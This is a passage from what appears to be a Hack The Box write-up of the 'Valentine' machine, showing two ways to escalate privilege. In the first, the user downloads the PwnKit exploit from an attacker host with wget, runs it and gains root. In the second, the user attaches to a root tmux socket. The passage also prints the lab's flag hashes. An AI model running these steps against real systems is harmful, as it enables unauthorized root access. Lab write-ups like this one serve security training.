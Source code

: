 ```shell
hype@Valentine:/tmp$ wget http://10.10.14.22/PwnKit
hype@Valentine:/tmp$ chmod &#43;x PwnKit 
hype@Valentine:/tmp$ ./PwnKit 
root@Valentine:/tmp# id  
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),124(sambashare),1000(hype)
root@Valentine:/tmp# 
```

![image-20230429172533596](resource/012-Valentine.assets/image-20230429172533596.png)

```shell
root@Valentine:/tmp# cat /root/root.txt 
adf6f323296f600cec9294d64c6c9bc1
root@Valentine:/tmp# cat /home/hype/user.txt 
0b946d1f7c12bb371585d67c10557dc8
```

### tmux提权

查看result.txt，发现tmux session

![image-20230429174112440](resource/012-Valentine.assets/image-20230429174112440.png)

通过tmux进行提权，成功获取root权限：

```shell
hype@Valentine:/tmp$ tmux -S /.devs/dev_sess

root@Valentine:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@Valentine:/tmp# 
```

